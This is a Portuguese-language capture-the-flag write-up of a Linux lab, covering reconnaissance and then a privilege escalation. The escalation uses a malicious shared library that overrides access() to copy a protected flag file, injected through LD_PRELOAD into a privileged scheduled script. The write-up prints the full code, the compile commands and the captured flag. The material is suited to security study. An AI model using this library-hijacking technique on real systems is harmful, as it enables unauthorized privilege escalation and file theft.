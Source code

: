 # CTF #4 - Linux Environment 


## Identificação de vulnerabilidades

Primeiramente, começamos por recolher o máximo de informação possível sobre o sistema, de forma a tentar encontrar alguma vulnerabilidade.
O ficheiro **admin_note.txt** deu-nos uma dica, que existe uma vulnerabilidade na tmp folder que nos permitiria chegar à flag. Além disso, depois de ler o ficheiro **main.c**, através do comando **cat**, descobrimos que, possivelmente, existe um ficheiro chamado ***flag.txt*** na folder flags.
Por fim, chegamos à conclusão que o script que corre regularmente no servidor tem mais privilégios que nós, por isso deduzimos que o script estaria relacionado com o ataque também.

``` 
cat main.c
```

Finalmente, tentamos aceder a flags folder, mas não tinhamos permissão.
Com estas informações, começamos a construir um plano com o propósito de, de alguma forma, conseguir root privileges e ter acesso ao ficheiro ***flags.txt***.


## Ataque


O ataque consiste em dar override à função **access()** da standard C library, presente no **main.c**, e fazer uma system call através da função **system()** onde usamos o comando **cat** para copiar o que está no ficheiro ***flag.txt*** para um ficheiro criado por nós.

Primeiro, começamos por criar um ficheiro `lib.c`, que terá o código da nossa malicious library:

```
cat > lib.c

#include <stdio.h>
#include <stdlib.h>

int access(const char *pathname, int mode) {
    system("/usr/bin/cat /flags/flag.txt > /tmp/text.txt");
       return 0;
}
```

O ficheiro `/tmp/text.txt` é um ficheiro temporário criado da seguinte forma :

```
touch text.txt
```

Este ficheiro irá conter o que estiver escrito no ficheiro `/flags/flag.txt`, que, em princípio, é a flag.

Depois disso, compilamos o `lib.c` de forma a torná-lo numa library com os seguintes comandos:

```
gcc -fPIC -g -c lib.c
```

E:

```
gcc -shared -o liblib.so.1.0.1 lib.o -lc
```

Por fim, temos que modificar o ficheiro `env` de forma a adicionar a library `liblib.so.1.0.1` à environment variable `LD_PRELOAD` desta forma:

``` 
cat > env
LD_PRELOAD=/tmp/liblib.so.1.0.1
```

Agora, basta esperar que o my_script.sh rode mais uma vez e a flag estará dentro do text.txt.
No nosso caso era `flag{90069b3c95cdd8df71e65ce0fd7ce815}`
